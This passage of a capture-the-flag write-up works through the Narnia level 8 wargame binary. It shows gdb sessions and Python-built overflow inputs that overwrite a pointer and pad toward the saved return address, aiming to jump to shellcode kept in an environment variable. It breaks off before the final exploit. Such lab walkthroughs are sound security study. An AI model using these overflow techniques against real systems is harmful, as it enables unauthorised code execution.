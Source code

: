 Other than the “\xbb\xd8\xff\xff” which follows the A’s the memory addresses are the same. So might initial thought was I could overwrite the first memory address with the memory address of the shellcode which would be placed in an environmential variable, but this wasn’t the case because I could not overwrite the memory address at this stage. So I began thinking well since we have an overflow occuring what if we can get around this current point and continue to the overflow to overwrite the RET address with the memory address to the shellcode.

So my thinking was if I could get the binary to go back to blah and pushing data into dok I would be able to cause an overflow which would allow me to gain control of the RET. To do this I would add the memory address for blah after the initial 20 A’s.

```
(gdb) r $(python -c'print("\x41"*20 + "B"*4)')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /games/narnia/narnia8 $(python -c'print("\x41"*20 + "B"*4)')
 
Breakpoint 1, 0x08048467 in func ()
(gdb) x/160wx $esp
0xffffd670:     0x08048580      0xffffd688      0x00000014      0xf7fceff4
0xffffd680:     0x080484b0      0x08049794      0x41414141      0x41414141
0xffffd690:     0x41414141      0x41414141      0x41414141      0xffffd842 <-- Overwrite these 4 bytes with blah's location
0xffffd6a0:     0xffffffff      0xf7e5f116      0xffffd6c8      0x0804848d <-- RET Address
0xffffd6b0:     0xffffd8b0 <--  0x00000000      0x080484b9      0xf7fceff4 - Points to blah
0xffffd6c0:     0x080484b0      0x00000000      0x00000000      0xf7e454b3
-- omitted output --
0xffffd8b0:     0x41414141 <--  0x41414141      0x41414141      0x41414141 - Start of blah
0xffffd8c0:     0x41414141      0x42424242      0x45485300      0x2f3d4c4c
0xffffd8d0:     0x2f6e6962      0x68736162      0x52455400      0x74783d4d
0xffffd8e0:     0x006d7265      0x5f485353      0x45494c43      0x323d544e

```
```
(gdb) r $(python -c'print("\x41"*20 + "\xb0\xd8\xff\xff")')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /games/narnia/narnia8 $(python -c'print("\x41"*20 + "\xb0\xd8\xff\xff")')
 
Breakpoint 1, 0x08048467 in func ()
(gdb) x/50wx $esp
0xffffd670:     0x08048580      0xffffd688      0x00000014      0xf7fceff4
0xffffd680:     0x080484b0      0x08049794      0x41414141      0x41414141
0xffffd690:     0x41414141      0x41414141      0x41414141      0xffffd8b0 <-- Now contains the location for blah
0xffffd6a0:     0xffffffff      0xf7e5f116      0xffffd6c8      0x0804848d <-- RET Address
0xffffd6b0:     0xffffd8b0      0x00000000      0x080484b9      0xf7fceff4
```
We now should be able to continue overflowing past the current point and overwrite the RET. There are 12 bytes between our current point and the RET address, so I modify the input to account for this information.

```
(gdb) r $(python -c'print("\x41"*20 + "\xb0\xd8\xff\xff" + "\x41"*12 + "\x42"*4)')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /games/narnia/narnia8 $(python -c'print("\x41"*20 + "\xb0\xd8\xff\xff" + "\x41"*12 + "\x42"*4)')
 
Breakpoint 1, 0x08048467 in func ()
(gdb) x/160wx $esp
0xffffd660:     0x08048580      0xffffd678      0x00000014      0xf7fceff4
0xffffd670:     0x080484b0      0x08049794      0x41414141      0x41414141
0xffffd680:     0x41414141      0x41414141      0x41414141      0xffff42b0 <-- Now contains the location for blah
0xffffd690:     0xffffffff      0xf7e5f116      0xffffd6b8      0x0804848d <-- RET Address
```